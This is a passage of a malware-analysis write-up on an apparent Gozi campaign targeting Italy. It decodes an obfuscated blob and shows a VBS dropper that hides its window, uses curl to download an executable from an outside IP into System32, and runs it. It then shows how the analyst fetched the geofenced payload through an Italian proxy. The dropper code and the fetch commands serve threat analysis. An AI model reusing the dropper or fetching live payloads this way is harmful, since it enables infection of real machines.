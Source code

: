 Using online tool such as [CyberChef](https://gchq.github.io/CyberChef/) I've URL decoded the blob of data and at the first part of the data looked like obfuscated JS code, but when I've scrolled down I found out another script written in VBS:

![image-2.png](/assets/images/Gozi-Itallian-Shellcode-Dance/7.png)

```vb
Window.ReSizeTo 0, 0
Window.MoveTo -4000, -4000
set runn = CreateObject("WScript.Shell")
dim file
file = "%systemroot%\\System32\\LogFiles\\" & "\login.exe"
const DontWaitUntilFinished = false, ShowWindow = 1, DontShowWindow = 0, WaitUntilFinished = true
set oShell = CreateObject("WScript.Shell")
oShell.Run "cmd /c curl http://191.101.2.39/installazione.exe -o %systemroot%\\System32\\LogFiles\\login.exe ", DontShowWindow, WaitUntilFinished
runn.Run file ,0
Close
```

Clearly the script tries to download external payload and drop it to the user's disk at `C:\Windows\System32\LogFiles\login.exe`


# Italy Geofence Bypass

The payload that the script tries to retirve utilize the `Curl` command.<br>
I've tried to download the file and got the error: `curl: (52) Empty reply from server`

![image.png](/assets/images/Gozi-Itallian-Shellcode-Dance/8.png)

So after digging throught the flags of Curl, I found the [-x flag](https://curl.se/docs/manpage.html#-x) which allow access the URL through a proxy.<br>So I looked for HTTP proxies in Italy ([free-proxy.cz](http://free-proxy.cz/en/proxylist/country/IT/http/ping/all)) And by executed the below command I've managed to retrieve the payload:
```
curl -x 185.22.57.134:8080 http://191.101.2.39/installazione.exe -o C:\Users\igal\Desktop\AgenziaEntrate1.bin
```
